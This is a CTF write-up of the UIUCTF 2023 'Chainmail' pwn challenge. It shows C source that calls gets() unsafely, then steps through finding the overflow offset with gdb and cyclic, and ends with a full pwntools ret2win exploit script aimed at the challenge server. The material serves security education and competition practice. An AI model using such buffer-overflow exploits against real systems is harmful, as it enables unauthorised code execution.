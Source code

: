 ```yaml
---
title: "UIUCTF 2023"
summary: "writeups"
categories: ["Post","writeups","ctfs"]
tags: ["post","writeups"]
header_img: img/uictf.PNG
showSummary: true
date: 2023-07-03
draft: false
---
```



Below is my Writeup for challenges that I managed to solve together with my [team](https://ctftime.org/team/206364)

#### Chainmail (Pwn)
We are given a C file and an executable. On viewing the C file:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void give_flag() {
    FILE *f = fopen("/flag.txt", "r");
    if (f != NULL) {
        char c;
        while ((c = fgetc(f)) != EOF) {
            putchar(c);
        }
    }
    else {
        printf("Flag not found!\n");
    }
    fclose(f);
}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char name[64];
    printf("Hello, welcome to the chain email generator! Please give the name of a recipient: ");
    gets(name);
    printf("Okay, here's your newly generated chainmail message!\n\nHello %s,\nHave you heard the news??? Send this email to 10 friends or else you'll have bad luck!\n\nYour friend,\nJim\n", name);
    return 0;
}
``` 
There is a main function of which performs some printf functions then we see a gets function which is vulnerable to buffer overflow. There is a function also give_flag() which opens a flag.txt, that is the function we want to execute. This is a classic ret2win challenge.

Let us find the offset:
I will use gdb and cyclic to do that.

cyclic 100 
<pre> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa</pre>
Since we see the buffer accepts 64 bytes then we can input more than 64 characters 
I will put the break after gets functions ![image](pwn1.PNG)
The program breaks due to sigsegv(segmentation fault)
![image](pwn3.PNG)
Copy the value in rsp to find padding  using cyclic 
![image](pwn5.PNG) 
NIce, We get the offset being 72, Now we need to know the address of give_flag that we need to execute. That should be pretty easy using gdb.
![image](pwn6.PNG)
Now developing the exploit, I Used [pwninit](https://github.com/io12/pwninit) to patch the binary and develop a solve script that uses pwntools. In the solve script, due to stack alignment issues we need to have a ret function other than the flag function so that it can execute well. We can find the ret function using ROPgadget
![image](pwn7.PNG)
Here is the exploit.
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chal_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("chainmail.chal.uiuc.tf", 1337)

    return r


def main():
    r = conn()
    padding = b"A"*72
    ret = p64(0x000000000040101a)
    flag_win = p64(0x0000000000401216)
    payload = padding + ret + flag_win

    # good luck pwning :)
    r.recvuntil(b"recipient:")
    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    main()
```
Testing it locally, I made a test flag to test the exploit.
![image](pwn8.PNG)

The script works fine, testing it using remote:
We get the flag 
<pre>uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}</pre>

More writeups coming


